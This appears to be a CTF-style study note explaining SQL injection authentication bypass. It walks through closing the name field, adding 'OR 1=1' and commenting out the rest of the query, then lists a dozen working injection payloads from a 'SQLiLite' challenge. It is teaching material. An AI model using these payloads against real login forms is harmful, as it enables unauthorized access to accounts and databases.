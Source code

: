 SQL injection (SQLi) is a well-known web security vulnerability that allows an attacker to interfere with the queries that an application makes to its database. ([Source](https://portswigger.net/web-security/sql-injection))

This note may be expanded in future. Challenges that require SQLi:
* SQL Direct
* SQLiLite
* More SQLi

Let's assume that the application queries the database with the following SQL query:


```sql
SELECT * FROM users WHERE name='USERNAME' AND password='PASSWORD'
```


To dump all users, we will inject into the `name` field. To do this, our payload must meet the following conditions:



* close the `name` field: `name=' '`
* add a condition that always returns `true`
* truncate the rest of the query 

For the last condition, we need to know what comments or query endings look like in SQL:

```sql
#
--
/* */ (open close)
;%00	(nullbyte)
;     (end of query)
```

For example payload `' OR 1=1;/*`

`'`- закриває лапку для поля `name`, завершуючи порожній рядок

`OR 1=1` - додає умову, яка **завжди істинна**:



* `1=1` always equals `true`
* Because of the operator `OR`, even if `name=' '` is `false`, the entire expression becomes `true`. The operator assumes that if **ONE** condition of the expression is *true*, then the entire expression is *true*. ([Logical disjunction](https://en.wikipedia.org/wiki/Logical_disjunction))



![Logical disjunction schema](../content/assets/images/Logical_disjunction.png)

* `--` - This is a comment in SQL that disables the rest of the query after it (comments it out). You can try the same thing with the end-of-query symbol `;`.



Let's insert the aforementioned payload:


```sql
SELECT * FROM users WHERE name='' OR 1=1;/*' AND password='PASSWORD'
```


 \
`/*` – Everything that follows this part will be considered a comment and will not be executed. Although `name='' ` is empty, the condition `OR 1=1 ` will force the entire expression to be *true*.

Taking into account the three rules above, you can construct injections yourself, which I did while completing the `SQLiLite` task: \
<pre class="prettyprint">
' OR 1=1 --";
' OR 1=1;--' 
' OR 1=1;--  
' OR 1=1;    
''' OR 1=1;  
''''' OR 1=1; # odd number in the payload required
' or true /*
' OR 1=1 /*
1' or 1 /* 
232435.11' or 12312.22 /* # every int/float/double number passes
' OR 1=1 --"
1' OR 12666;%00 # every int/float/double number passes
33' OR 1=1 -- </pre>




Let's look at some examples `''' OR 1=1;` and  `''''' OR 1=1;` :


```sql
SELECT * FROM users WHERE name='''' OR 1=1;--' AND password='PASSWORD'
```


Make sure that the payload starts with an odd number of brackets so that the last one is **closing** for the field.

